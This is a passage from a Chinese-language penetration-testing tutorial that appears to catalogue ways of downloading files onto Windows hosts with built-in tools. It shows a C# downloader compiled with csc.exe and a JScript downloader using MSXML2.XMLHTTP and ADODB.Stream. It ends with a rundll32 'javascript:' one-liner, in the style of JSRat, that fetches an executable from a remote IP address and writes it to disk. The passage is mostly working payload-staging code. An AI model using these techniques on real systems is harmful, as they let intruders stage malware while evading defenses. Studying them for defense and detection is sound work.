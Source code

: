 ```
}

```

使用echo将代码依次写入文件download.cs中，然后调用csc.exe编译cs文件

执行

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /out:C:\tes
t\update\download.exe C:\test\update\download.cs

```

如图成功生成download.exe

![Alt text](http://drops.javaweb.org/uploads/images/89f9378f1e879557a6b75e8ae69572a40b337528.jpg)

**注：**  
csc.exe的绝对路径要根据系统的.net版本来确定

### 6、JScript

相比于JSRat中用的`Scripting.FileSystemObject`

换用`ADODB.Stream`实现起来更加简单高效

以下代码依次保存为js文件，直接执行即可实现下载文件

```
var Object = WScript.CreateObject("MSXML2.XMLHTTP");
Object.open("GET","http://192.168.174.145/ssss2.exe",false);
Object.send();
if (Object.Status == 200)
{
    var Stream = WScript.CreateObject("ADODB.Stream");
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.SaveToFile("C:\\test\\update\\ssss2.exe", 2);
    Stream.Close();
}

```

合并成rundll32的一句话（类似于JSRat的启动方式）：

cmd：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();Object=new%20ActiveXObject("Microsoft.XMLHTTP");Object.open("GET","http://192.168.174.145/ssss2.exe",false);Object.send();if(Object.Status==200){Stream=new%20ActiveXObject("ADODB.Stream");Stream.Open();Stream.Type=1;Stream.Write(Object.ResponseBody);Stream.SaveToFile("C:\\test\\update\\ssss2.exe",2);Stream.Close();}

```
